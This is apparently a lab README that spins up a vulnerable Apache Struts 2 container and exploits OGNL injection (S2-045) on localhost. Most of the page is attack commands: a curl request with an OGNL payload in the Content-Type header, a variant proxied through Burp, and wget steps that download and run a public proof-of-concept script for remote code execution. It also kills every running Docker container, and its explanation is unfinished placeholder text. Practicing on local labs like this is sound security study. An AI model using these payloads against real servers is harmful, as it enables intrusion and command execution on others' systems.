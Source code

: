 # 5. Apache Struts 2 OGNL Injection
## Subtitle / what it does


### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 5-apache-struts-2
docker-compose up -d
```

### Exploit:
```
curl -XPOST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```
### Proxy curl via Burp:
```
curl -XPOST --proxy http://127.0.0.1:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```

![image](https://user-images.githubusercontent.com/31791455/140393499-ab5e5463-ea74-46c0-a746-c8457c23f773.png)


### Code execution:
The exploit requires unlocking some OGNL features before you can pass from simple code evaluation to full RCE.
Ready to use exploit can be found here: 
```
wget https://raw.githubusercontent.com/Medicean/VulApps/master/s/struts2/s2-045/poc.py
chmod +x ./poc.py
python2 poc.py "http://127.0.0.1:8080" "id"
```

![image](https://user-images.githubusercontent.com/31791455/140393300-96dba119-0002-4c2a-af5b-0a1704484a0a.png)


### Explanation
This happens costam

### References and recommended reading


### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/struts2/s2-045
